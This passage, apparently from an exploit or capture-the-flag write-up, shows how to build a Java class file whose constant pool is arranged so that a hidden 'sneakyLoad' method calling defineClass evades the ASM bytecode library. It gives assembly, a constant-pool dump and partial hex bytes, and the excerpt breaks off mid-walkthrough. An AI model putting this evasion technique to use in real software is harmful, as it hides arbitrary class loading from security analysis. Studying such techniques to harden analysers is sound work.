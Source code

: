 Now we can add some constants we need at the beginning that we don’t care about hiding from ASM and don’t need to be in a specific position in the constant pool:

```
.method public woodlelyDoodlely : ()I
    .code stack 2000 locals 10
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"

        ldc_w "evilstring"

        ; Longs here

        iconst_0
        ireturn
    .end code
.end method


```

We can assemble this class and then run it through ASM (with no bytecode transformations added) in order to see what the constant pool ordering will look like after going through ASM.

```
.const [1] = Utf8 Exploit 
.const [2] = Class [1] 
.const [3] = Utf8 java/lang/Object 
.const [4] = Class [3] 
.const [5] = Utf8 woodlelyDoodlely 
.const [6] = Utf8 ()I 
.const [7] = Utf8 (Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class; 
.const [8] = String [7] 
.const [9] = Utf8 Code 
.const [10] = String [9] 
.const [11] = Utf8 evilstring 
.const [12] = String [11] 


```

As we can see here, the two strings we just added show up at indices 7 and 9 respectively, so we can now fill in the placeholders in the previous data with `[sneakyLoad_desc_utf] = 0007` and `[Code_utf] = 0009`.

This results in `0001 [this_cls] [super_cls] 0000 0000 0002 0001 [sneakyLoad_utf] 0007 0005 0009 0000001C 0042 0500 00000010 2A 2B 2C 0557 03 2C BE 2D B6[defineClass_method] 0557 B0 00 0000 0000 $other_attrs $method2 0000`.

### Tiling part 2

When we left off before, we had just tiled the code for the `sneakyLoad` method with `Long` constants, carefully finding places to put the tag bytes. However, we had to set the method attribute count to 5, meaning that we need to add four extra dummy attributes. Now, we’ll cover that, as well as tiling the second method (`<init>`) and everything else.
